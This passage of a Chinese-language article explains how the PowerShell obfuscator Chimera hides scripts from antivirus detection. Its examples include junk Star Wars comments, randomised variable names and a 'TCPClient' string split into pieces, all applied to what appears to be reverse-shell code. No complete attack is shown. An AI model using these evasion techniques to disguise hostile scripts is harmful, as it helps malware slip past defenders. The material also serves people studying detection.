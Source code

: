 ```
  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.

           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.

   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.

           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")

# Far off in a distant galaxy, the starship belonging to Princess Leia, a young member of the Imperial Senate, is intercepted in the course of a secret mission by a massive Imperial Star Destroyer.

            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)

   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.
```

![](https://image.3001.net/images/20210313/1615641337_604cbaf9b3a6a63d7a650.png!small)

Chimera 会对源代码做以下几件事情来实现代码混淆处理。transformer 函数将会把字符串分割成多个部分，并将它们以新变量的形式重新构建。

比如说，它会将类似 “... New-Object System.Net.Sockets.TCPClient ...” 这样的字符串转换成如下形式：

```
$a = "Syste"

$b = "m.Net.Soc"

$c = "kets.TCP"

$d = "Client"

 

... New-Object $a$b$c$d ...
```

函数能够将常见的标记数据类型和字符串分割成多个数据区块，并对数据区块进行定义，然后在脚本头部进行串联和重新构建。如果执行时使用更高数值的 --level 参数，则会将源数据拆分成更小的数据区块和更多的变量：

```
$CNiJfmZzzQrqZzqKqueOBcUVzmkVbllcEqjrbcaYzTMMd = "`m"

$quiyjqGdhQZgYFRdKpDGGyWNlAjvPCxQTTbmFkvTmyB = "t`Rea"

$JKflrRllAqgRlHQIUzOoyOUEqVuVrqqCKdua = "Get`s"

$GdavWoszHwDVJmpYwqEweQsIAz = "ti`ON"

$xcDWTDlvcJfvDZCasdTnWGvMXkRBKOCGEANJpUXDyjPob = "`L`O`Ca"

$zvlOGdEJVsPNBDwfKFWpvFYvlgJXDvIUgTnQ = "`Get`-"

$kvfTogUXUxMfCoxBikPwWgwHrvNOwjoBxxto = "`i"

$tJdNeNXdANBemQKeUjylmlObtYp = "`AsC`i"

$mhtAtRrydLlYBttEnvxuWkAQPTjvtFPwO = "`G"
```